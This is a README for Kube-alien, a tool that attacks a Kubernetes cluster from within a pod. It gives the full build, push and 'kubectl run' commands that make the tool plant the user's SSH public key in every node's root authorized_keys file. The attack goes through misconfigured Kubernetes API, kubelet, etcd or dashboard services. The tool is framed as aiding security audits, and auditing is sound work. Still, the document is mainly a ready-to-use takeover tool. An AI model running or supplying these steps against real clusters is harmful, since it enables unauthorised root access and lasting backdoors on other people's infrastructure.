 # Kube-alien

This tool launches attack on k8s cluster from within. That means you already need to have an access with permission to deploy pods 
in a cluster to run it. After running the kube-alien pod it tries to takeover cluster's nodes by adding your public key to node's 
/root/.ssh/authorized_keys file by using this image https://github.com/nixwizard/dockercloud-authorizedkeys (Can be adjusted using 
ADD_AUTHKEYS_IMAGE param in config.py) forked from docker/dockercloud-authorizedkeys.
The attack succeedes if there is a misconfiguration in one of the cluster's components it goes along the following vectors:

- Kubernetes API
- Kubelet service
- Etcd service
- Kubernetes-Dashboard

What is the purpose of this tool? 
- While doing security audit of a k8s cluster one can quickly assess it's security posture.
- Partical demostration of the mentioned attack vectors exploitation.

How can k8s cluster be attacked from within in a real life?
- RCE or SSRF vunerability in an app which is being run in one of your cluster's pods.

# Usage
Kube-alien image should be pushed to your dockerhub(or other registry) before using with this tool.
```
git clone https://github.com/nixwizard/kube-alien.git<BR>
cd kube-alien<BR>
docker build -t ka ./<BR>
docker tag ka YOUR_DOCKERHUB_ACCOUNT/kube-alien:ka<BR>
docker push YOUR_DOCKERHUB_ACCOUNT/kube-alien:ka<BR>
```
The AUTHORIZED_KEYS env required to be set to the value of your ssh public key, in case of success the public key will be added to all 
node's root's authorized_keys file.<BR>
```
kubectl run --image=YOUR_DOCKERHUB_ACCOUNT/kube-alien kube-alien --env="AUTHORIZED_KEYS=$(cat ~/.ssh/id_rsa.pub)" --restart Never<BR>
```
or you may use my image for quick testing purpose:<BR>
```
kubectl run --image=nixwizard/kube-alien kube-alien --env="AUTHORIZED_KEYS="$(cat ~/.ssh/id_rsa.pub)" --restart Never<BR>
```
Check Kube-alien pod's logs to see if attack was successful:<BR>
kubectl logs $(kubectl get pods| grep alien|cut -f1 -d' ')<BR>


# The following resources helped me a lot in creating this tool
- https://www.youtube.com/watch?v=vTgQLzeBfRU
- https://www.youtube.com/watch?v=dxKpCO2dAy8 (and other awesome posts on kubernetes attack surface at https://raesene.github.io)
- https://medium.com/handy-tech/analysis-of-a-kubernetes-hack-backdooring-through-kubelet-823be5c3d67c
